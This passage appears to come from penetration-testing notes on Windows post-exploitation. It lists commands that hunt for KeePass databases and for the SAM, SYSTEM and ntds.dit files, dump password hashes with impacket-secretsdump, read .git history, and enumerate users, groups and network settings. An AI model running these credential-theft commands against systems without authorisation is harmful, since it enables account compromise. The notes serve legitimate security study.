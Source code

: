 

- Exploit password manager file

  ```
  # Search for password manager databases
  Get-ChildItem -Path C:\ -Include *.kdbx -File -Recurse -ErrorAction SilentlyContinue
  ```

  

- Exploit SAM

  ```
  Get-ChildItem -Path C:\ -Include SAM, SYSTEM -File -Recurse -ErrorAction SilentlyContinue
  impacket-secretsdump -sam SAM -system SYSTEM LOCAL
  	-history
  ```
  
  For DC, search `ntds.dit` & `SYSTEM`
  
  For normal machines, search `SAM` & `SYSTEM`
  
  
  
- .git folder

  ```
  dir /s /b /a:d | findstr "\.git$"
  
  git log		# show us the commit log
  git show <commit>	# show us the content of a commit
  ```

- lsass.zip / lsass

#### 3. Enumerate Users & Groups

```
# CMD
net user 
    net user xxx 
    net user /domain
    net user xxx /domain

# check what users are in local administrators
net localgroup Administrators

# POWERSHELL
Get-LocalUser
Get-LocalGroup
Get-LocalGroupMember <group>
```



#### 4. Ip address & network

```
ipconfig
netsh interface ip show config
route print

netstat -ano
```
